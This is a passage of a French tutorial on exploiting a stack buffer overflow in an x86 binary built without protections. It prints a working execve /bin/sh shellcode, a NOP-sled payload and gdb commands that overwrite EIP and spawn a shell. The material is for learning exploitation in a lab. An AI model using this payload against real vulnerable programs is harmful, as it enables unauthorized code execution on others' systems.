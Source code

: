 Bingo ! Nous contrôlons donc EIP.

### Préparation de l'exploit

Comme évoqué précédemment, nous savons que la pile est exécutable ( option -z execstack ) et que les adresses de la pile ne seront pas modifiés à chaque lancement.

Nous allons donc pouvoir inscrire notre shellcode dans la stack et, comme nous contrôlons EIP, rediriger le flux d’exécution au sein de cette dernière.

Pour un plus grand confort nous allons remplir la stack d'instructions inutiles comme \x90 ( nop ). Cette instruction ne modifie en rien la structure des registres, elle ne fait tout simplement rien. Afin d'avoir un exploit qui marchera à chaque coup, nous allons rediriger EIP dans un flux de nops qui précédera notre shellcode. Si jamais, l'adresse de la stack est décalée ( ce qui est le cas lorsque l'on tente d'exploiter un binaire hors de gdb ) EIP pointera quand même dans des nops et glissera vers notre shellcode.

Le shellcode que nous allons utiliser est le suivant :

\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
Vous pouvez le retrouver sur shell-storm.

### Exploitation dans GDB

L'argument que nous allons donner à notre programme, et ce qui constitue notre exploit, est :

- "Junk datas " pour remplir le buffer ici 37 fois le caractère "a".
- "Adresse d'EIP" pour le moment on ne la connait pas.
- "Important nombre de nops" ici 9000 nops, autant voir large.
- "Shellcode" la charge utile de notre exploit.

`gdb-peda$ run $(python -c "from struct import pack; print 'a'*37+pack('<I',0xdeadbeef)+'\x90'*9000+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")`

A ce moment, je m'attends a ce que le programme crash de nouveau à l'adresse 0xdeadbeef :

![Crash du programme](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_007.png)

Nous pouvons alors remarquer que la stack est remplie d'instruction nop. Je peux alors analyser le contenu de cette dernière avec la commande x/9000i : "Affiche moi les 9000 prochaines valeurs de la stack sous forme d'instruction".

Et vers la fin de celle ci, nous retrouvons notre shellcode :

![Instructions contenues dans la stack](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_008.png)

Parfait ! Il ne me reste alors plus qu'à récupérer une adresse située au milieu des nops : 0xffffb4bd et à remplacer 0xdeadbeef dans mon exploit par cette valeur :

`gdb-peda$ run $(python -c "from struct import pack; print 'a'*37+pack('<I',0xffffb4bd)+'\x90'*9000+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'") `

![Exploitation dans GDB](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_008-1024x95.png)

Cette fois ci, pas de crash le programme nous execute bien un invité de commande sh comme demandé.

## Sortie de GDB
